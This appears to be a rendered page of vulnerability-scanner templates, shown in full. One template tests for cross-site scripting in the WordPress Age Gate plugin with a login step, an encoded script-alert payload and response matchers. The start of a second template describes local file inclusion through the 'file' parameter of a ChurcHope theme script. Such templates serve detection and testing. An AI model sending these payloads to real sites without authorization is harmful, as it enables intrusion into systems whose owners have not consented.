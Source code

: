 **Type - status**
- status
    1. 200

---
# WordPress Age Gate \<2.20.4 - Cross-Site Scripting
## Description
- WordPress Age Gate plugin before 2.20.4 contains a cross-site scripting vulnerability. The plugin does not escape some URLs before outputting them back in attributes.

- severity - high
- tags - xss,authenticated,age-gate,wpscan,wordpress,wp-plugin,wp
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=age-gate&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(document.domain)\</script>
    2. Age Gate Restriction Settings
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress ChurcHope Theme \<= 2.1 - Local File Inclusion
## Description
- WordPress ChurcHope Theme \<= 2.1 is susceptible to local file inclusion. The vulnerability is caused by improper filtration of user-supplied input passed via the 'file' HTTP GET parameter to the '/lib/downloadlink.php' script, which is publicly accessible.
- severity - high
- tags - wp,wpscan,wordpress,wp-theme,lfi
## Requests
- Method - GET